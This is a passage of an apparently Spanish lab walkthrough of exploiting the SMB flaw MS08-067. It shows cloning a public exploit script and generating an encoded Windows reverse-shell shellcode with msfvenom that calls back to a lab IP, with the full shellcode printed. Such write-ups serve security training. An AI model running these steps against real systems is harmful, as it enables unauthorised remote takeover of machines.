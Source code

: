 Como podemos ver, la maquina dio positivo a dos vulnerabilidades, la MS08-067 y la MS17-010. Dos de las vulnerabilidades mas famosas de SMB porque han sido utilizadas por worms ya que no requieren autenticación o dependencia alguna de la maquina para poder explotar vulnerabilidades y alcanzar el anillo 0.

# Exploiting MS08-067

Hay varios caminos podemos usar para explotar esta vulnerabilidad, la más fácil y más común es utilizar metasploit-framework que ya tiene el "todo en uno" para esta vulnerabilidad. Iniciare por explotar la vulnerabilidad con ms08_067_2018.py:

## ms08_067.py

Para explotar esta vulnerabilidad con este script, primero necesitamos clonar el [repositorio](https://github.com/andyacer/ms08_067), después cumplir con las dependencias y finalmente preparar el entorno.

``` text
xbytemx@laptop:~/git$ git clone https://github.com/andyacer/ms08_067
Clonando en 'ms08_067'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37
Desempaquetando objetos: 100% (37/37), listo.
xbytemx@laptop:~/git$ cd ms08_067/
xbytemx@laptop:~/git/ms08_067$ python ms08_067_2018.py
#######################################################################
#   MS08-067 Exploit
...
```

Ahora que tenemos todo lo que necesitamos, debemos preparar la shellcode con msfvenom:

``` text
xbytemx@laptop:~/git/ms08_067$ msfvenom --payload windows/shell_reverse_tcp --nopsled 7 LHOST=10.10.14.26 LPORT=3001 EXITFUNC=thread --bad-chars "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -e x86/jmp_call_additive -a x86 --platform windows
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/jmp_call_additive
x86/jmp_call_additive succeeded with size 353 (iteration=0)
x86/jmp_call_additive chosen with final size 353
Successfully added NOP sled of size 7 from x86/single_byte
Payload size: 360 bytes
Final size of c file: 1536 bytes
unsigned char buf[] =
"\x4b\xfd\x93\x90\xd6\xf8\x90\xfc\xbb\xc1\x87\xd9\xf4\xeb\x0c"
"\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff"
"\xff\xff\x3d\x6f\x5b\xf4\xbd\x70\x3c\x7c\x58\x41\x7c\x1a\x29"
"\xf2\x4c\x68\x7f\xff\x27\x3c\x6b\x74\x45\xe9\x9c\x3d\xe0\xcf"
"\x93\xbe\x59\x33\xb2\x3c\xa0\x60\x14\x7c\x6b\x75\x55\xb9\x96"
"\x74\x07\x12\xdc\x2b\xb7\x17\xa8\xf7\x3c\x6b\x3c\x70\xa1\x3c"
"\x3f\x51\x74\x36\x66\x71\x77\x9b\x12\x38\x6f\xf8\x1f\xf2\x04"
"\xca\xd4\x05\xcc\x02\x14\xa9\x31\xab\xe7\xb3\x76\x0c\x18\xc6"
"\x8e\x6e\xa5\xd1\x55\x0c\x71\x57\x4d\xb6\xf2\xcf\xa9\x46\xd6"
"\x96\x3a\x44\x93\xdd\x64\x49\x22\x31\x1f\x75\xaf\xb4\xcf\xff"
"\xeb\x92\xcb\xa4\xa8\xbb\x4a\x01\x1e\xc3\x8c\xea\xff\x61\xc7"
"\x07\xeb\x1b\x8a\x4f\xd8\x11\x34\x90\x76\x21\x47\xa2\xd9\x99"
"\xcf\x8e\x92\x07\x08\xf0\x88\xf0\x86\x0f\x33\x01\x8f\xcb\x67"
"\x51\xa7\xfa\x07\x3a\x37\x02\xd2\xed\x67\xac\x8d\x4d\xd7\x0c"
"\x7e\x26\x3d\x83\xa1\x56\x3e\x49\xca\xfd\xc5\x1a\xff\x0b\xcb"
"\xc0\x97\x09\xd3\xff\xde\x87\x35\x95\x30\xce\xee\x02\xa8\x4b"
"\x64\xb2\x35\x46\x01\xf4\xbe\x65\xf6\xbb\x36\x03\xe4\x2c\xb7"
"\x5e\x56\xfa\xc8\x74\xfe\x60\x5a\x13\xfe\xef\x47\x8c\xa9\xb8"
"\xb6\xc5\x3f\x55\xe0\x7f\x5d\xa4\x74\x47\xe5\x73\x45\x46\xe4"
"\xf6\xf1\x6c\xf6\xce\xfa\x28\xa2\x9e\xac\xe6\x1c\x59\x07\x49"
"\xf6\x33\xf4\x03\x9e\xc2\x36\x94\xd8\xca\x12\x62\x04\x7a\xcb"
```